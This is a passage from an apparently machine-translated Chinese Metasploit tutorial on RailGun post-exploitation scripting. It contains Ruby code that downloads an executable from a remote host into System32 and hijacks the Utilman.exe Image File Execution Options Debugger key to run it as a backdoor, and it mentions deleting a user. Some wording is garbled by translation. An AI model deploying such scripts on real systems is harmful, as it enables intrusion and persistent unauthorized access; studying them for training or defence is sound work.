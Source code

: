 用户似乎去钓鱼了。RailGun 调用已成功删除用户`Nipun`。`nil`值定义用户在本地机器上。但是，我们也可以使用 name 参数的值来定位远程系统。

# 操作 Windows API 调用

DLL 文件负责在基于 Windows 的系统上执行大多数任务。因此，有必要了解哪个 DLL 文件包含哪些方法。这与 Metasploit 的库文件非常相似，其中包含各种方法。为了研究 Windows API 调用，我们在[有优秀的资源 http://source.winehq.org/WineAPI/](http://source.winehq.org/WineAPI/) 和[http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516（v=vs.85）。aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/ff818516(v=vs.85).aspx)。我建议您在继续创建 RailGun 脚本之前，先研究各种 API 调用。

请参阅以下路径以了解有关 RailGun 支持的 DLL 文件的更多信息：`/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`。

# 制造复杂的轨道炮脚本

更进一步，让我们深入研究使用 RailGun 编写用于 MeterMeter 扩展的脚本。首先，让我们创建一个脚本，将自定义命名的 DLL 文件添加到 Metasploit 上下文中：

```
if client.railgun.get_dll('urlmon') == nil 
print_status("Adding Function") 
end 
client.railgun.add_dll('urlmon','C:\WINDOWS\system32\urlmon.dll') 
client.railgun.add_function('urlmon','URLDownloadToFileA','DWORD',[ 
["DWORD","pcaller","in"], 
["PCHAR","szURL","in"], 
["PCHAR","szFileName","in"], 
["DWORD","Reserved","in"], 
["DWORD","lpfnCB","in"], 
]) 
```

将代码保存在名为`urlmon.rb`的文件`/scripts/meterpreter`目录下。

前面的脚本为`C:\WINDOWS\system32\urlmon.dll`文件添加了一个引用路径，其中包含浏览所需的所有功能，以及下载特定文件等功能。我们将此引用路径保存在名称`urlmon`下。接下来，我们向 DLL 文件添加一个函数，使用 DLL 文件的名称作为第一个参数，将要挂接的函数的名称作为第二个参数，即`URLDownloadToFileA`，然后是所需的参数。代码的第一行检查 DLL 函数是否已经存在于 DLL 文件中。如果该函数已经存在，脚本将跳过再次添加该函数。如果调用的应用程序不是 ActiveX 组件，`pcaller`参数设置为`NULL`；如果是，则设置为 COM 对象。`szURL`参数指定要下载的 URL。`szFileName`参数指定从 URL 下载的对象的文件名。`Reserved`始终设置为`NULL`，并且`lpfnCB`处理下载状态。但是，如果状态不是必需的，则该值应设置为`NULL`。

现在让我们创建另一个脚本，它将使用此函数。我们将创建一个攻击后脚本，该脚本将下载一个免费文件管理器，并在 Windows 操作系统上修改实用程序管理器的条目。因此，无论何时调用实用程序管理器，我们的免费软件程序都将运行。

我们在同一目录中创建另一个脚本，并将其命名为`railgun_demo.rb`，如下所示：

```
client.railgun.urlmon.URLDownloadToFileA(0,"http://192.168.1.10 /A43.exe","C:\Windows\System32\a43.exe",0,0) 
key="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" 
syskey=registry_createkey(key) 
registry_setvaldata(key,'Debugger','a43.exe','REG_SZ') 
```

如前所述，脚本的第一行将使用所需参数从`urlmon`DLL 文件调用自定义添加的 DLL 函数`URLDownloadToFile`。

接下来，我们在父键`HKLMSOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Options`下创建一个键`Utilman.exe`。

